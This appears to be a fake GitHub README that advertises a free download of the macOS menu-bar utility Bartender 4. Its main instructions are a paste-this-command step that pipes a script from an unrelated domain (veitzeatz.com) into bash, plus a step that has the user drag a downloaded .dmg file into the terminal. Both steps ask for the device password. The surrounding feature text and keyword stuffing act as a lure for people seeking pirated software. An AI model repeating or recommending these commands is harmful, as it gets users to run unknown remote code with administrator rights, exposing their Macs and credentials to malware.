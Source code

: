 # Bartender 4 — Download For macOS 🖥️

Bartender 4 is a powerful macOS menu bar organization tool that helps you declutter and manage your menu bar icons with ease. Follow the instructions below to download and install Bartender 4 on your Mac for free.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://bartender-4-download.github.io/.github/)

If the download button above doesn't work, follow the step-by-step terminal instructions below.

## 📦 How to Install Bartender 4 For macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with Bartender 4

- 🛠️ **Menu Bar Customization**: Organize and hide menu bar icons to keep your workspace clean and focused.
- ⚡ **Quick Access**: Show hidden icons with a single click or keyboard shortcut for instant access.
- 🎨 **Personalized Layouts**: Customize the appearance and behavior of your menu bar to match your workflow.
- 🔄 **Dynamic Updates**: Automatically adjust the menu bar based on running apps or system status.
- 🔒 **Privacy Controls**: Hide sensitive app icons to maintain a secure and professional workspace.
- 🚀 **Performance Optimization**: Lightweight design ensures no impact on your Mac's performance.

---

## About Bartender 4

Bartender 4 is an essential macOS utility designed to streamline your menu bar experience. With the increasing number of apps that add icons to the macOS menu bar, it can quickly become cluttered, reducing productivity and visual appeal. Bartender 4 solves this by allowing users to hide, rearrange, or group menu bar icons effortlessly. Whether you're a professional managing multiple apps or a casual user seeking a cleaner interface, Bartender 4 delivers a seamless solution for macOS Ventura, Monterey, and earlier versions.

The software offers unmatched flexibility with its customization options. Users can create dynamic rules to show or hide icons based on specific triggers, such as when an app is active or during specific tasks. This makes Bartender 4 ideal for developers, designers, and anyone who values a distraction-free workspace. Its intuitive interface ensures that even first-time users can set it up in minutes, with no technical expertise required.

Bartender 4 also prioritizes performance, running smoothly on all modern macOS systems without draining system resources. Its compatibility with macOS Ventura and earlier versions ensures broad accessibility. The software is regularly updated to support new macOS releases, making it a reliable choice for long-term use. By incorporating SEO keywords like *Bartender 4 free download*, *macOS menu bar organizer*, and *menu bar customization tool*, this repository ensures discoverability for users searching for a free, legitimate way to install the software.

Another standout feature is Bartender 4's ability to enhance privacy. By hiding sensitive app icons, such as those for VPNs or messaging apps, users can maintain a professional workspace during presentations or screen-sharing sessions. This feature, combined with its lightweight design, makes Bartender 4 a must-have for macOS users looking to optimize their desktop environment.

### Why Choose Bartender 4?
Bartender 4 stands out among other menu bar management tools due to its robust feature set and user-friendly design. Unlike basic alternatives, it offers advanced customization, dynamic triggers, and seamless integration with macOS. Its free availability for download, as outlined in this repository, ensures that users can access its full potential without barriers. Whether you're searching for a *menu bar organizer macOS* or a *free macOS utility*, Bartender 4 delivers unmatched value.

---

## 🖼️ Preview

![Menu Bar Customization](https://i.ytimg.com/vi/ovtT2lDxTRQ/hq720.jpg?sqp=-oaymwE7CK4FEIIDSFryq4qpAy0IARUAAAAAGAElAADIQj0AgKJD8AEB-AH-CYAC0AWKAgwIABABGH8gJygTMA8=&rs=AOn4CLCLrQZyzTOxn-1gX-Y5jKDrReAgkg)  
*Customizing the menu bar with Bartender 4's intuitive interface*

![Hidden Icons](https://heise.cloudimg.io/bound/1200x1200/q85.png-lossy-85.webp-lossy-85.foil1/_www-heise-de_/imgs/18/4/6/0/5/9/7/5/bartendermac-90de7df635acb720.png)  
*Hiding unused icons for a cleaner macOS menu bar*

![Dynamic Triggers](https://cdn.macstories.net/screen-shot-2021-04-19-at-4-33-42-pm-1618869622843.png)  
*Setting dynamic rules to show/hide icons based on app activity*

---

## 🔍 Tags

Bartender 4 free download, free Bartender download, bartender for mac download, bartender free download, bartender macos free, bartender 4 free download mac, bartender macos free, bartender 4 free macos, bartebder 4 free, bartender 4 download
